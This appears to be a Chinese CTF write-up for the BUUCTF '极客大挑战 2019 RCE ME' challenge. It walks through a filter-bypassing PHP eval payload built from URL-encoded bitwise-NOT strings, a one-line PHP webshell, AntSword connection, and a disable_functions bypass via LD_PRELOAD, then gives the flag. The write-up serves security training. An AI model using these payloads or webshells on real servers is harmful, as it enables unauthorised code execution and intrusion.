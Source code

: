 ```yaml
---
title: 极客大挑战 2019 RCE ME
categories: 
- DROPS
tags:
- Web
- BUUCTF_Web
- RCE
- disable_function绕过
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120232544.png
date: 2020-12-5 20:42:00
---
```


# [极客大挑战 2019]RCE ME

源码：

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析一波，GET请求获得`code`，想要通过的话需要绕过两个检测：

1. payload长度小于40
2. 不能包含`a-z、A-Z、0-9`

和之前做过DMCTF里的一个不能用数字和字母构造payload一样，当时参考的博客是phith0n师傅的:[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)，这次摸到了相关文章：[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)。

使用`url编码`+`~`取反构造不可见字符串，然后加上php7版本以后支持了使用：`($a)()`这样的方法动态执行函数，所以我们可以构造payload：`assert(eval($_POST[‘a’]))`

先构造`assert`：

```
echo urlencode(~'assert');

//结果：%9E%8C%8C%9A%8D%8B
```

再构造`eval($_POST['a'])`：

```
echo urlencode(~'eval($_POST[\'a\'])');

//结果：%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6
```

完整payload：

```
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6);
```

网站获得请求以后会进行url解码，由于是不可见字符可以绕过长度和正则表达式，之后执行代码时，前面的`~`取反再获得真正的函数名。

使用蚁剑连接，进后台在根目录找到了flag、readflag。打开flag内容为空，又打开readflag文件是一堆乱码，但是看到了文件头是`ELF`是linux的可执行文件。那么很有可能就是执行readflag才能获得flag，但是在终端执行时出现了一些问题：无论输入什么，终端都只会返回`ret=127`：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201205201403.png)

搜索了一波，原来是是**disable_function**搞的鬼，这个表可以在phpinfo()中查看：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201205201821.png)

因为`system`、`exec`、`shell_exec`等命令执行的函数都被禁止了，目前我理解的webshell就是通过这些函数才能在终端执行命令的，所以终端基本是个废的，所以就是寻找绕过**disable_function**的方法，网上有很多其他方法，其中一个方法：

**利用环境变量LD_PRELOAD来绕过**

>php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
>
> 
>
>LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

正好蚁剑的插件中就有一个名为：[as_bypass_php_disable_functions](https://github.com/Medicean/as_bypass_php_disable_functions)的插件，可以选择在插件市场安装或是手动安装（github有步骤）。安装以后右键shell选择加载插件：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204234337.png)

插件的工作原理是自动上传几个绕过的文件，然后再用蚁剑连接上传的文件即可实现绕过，但是一开始的`/var/www/html`目录是没有上传权限的，我右键以后发现能修改权限，改成0777：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204190508.png)

>在这里我还遇到了问题，使用原来的shell执行插件功能以后，终端还是没有权限，但是我尝试了自己又上传了一个一句话木马，用这个新的一句话木马执行插件才成功，具体原因我也不清楚，如果有师傅知道原因求告知。

上传一句话木马233.php：

```
<?php
@eval($_POST['b']);
```

再用一句话木马的shell执行插件：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204231514.png)

进入shell，目录下面多了一个名为**\.antproxy.php**的文件：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204234445.png)

再使用蚁剑连接**\.antproxy.php**，密码是运行插件的那个shell的密码，这时候就可以开开心心的去根目录下执行readflag获得flag辣。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204233847.png)

flag{a216900e-2427-48f7-9323-f65d0a3abdbf}

